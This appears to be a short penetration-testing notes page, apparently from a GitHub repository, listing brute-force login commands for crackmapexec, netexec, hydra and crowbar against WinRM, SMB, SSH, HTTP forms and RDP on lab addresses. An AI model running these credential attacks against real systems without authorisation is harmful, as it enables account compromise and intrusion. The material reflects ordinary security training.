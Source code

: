 
- check [services footprinting](https://github.com/kiro6/penetration-testing-notes/blob/main/Penetration%20Testing/Footprinting/Services.md)

```bash
crackmapexec winrm 10.129.42.197 -u user.list -p password.list

## this is better
netexec smb 10.129.202.85 -u user.list -p password.list 

# hydra
hydra -L user.list -P password.list ssh://10.129.42.197
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form  "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /

# for openvpn, rdp, sshkey, vnckey
crowbar -b rdp -s xx.xxx.xxx.xxx/32 -u johanna -C <full-mutated-password-list


# medusa is also awesome for smb

```
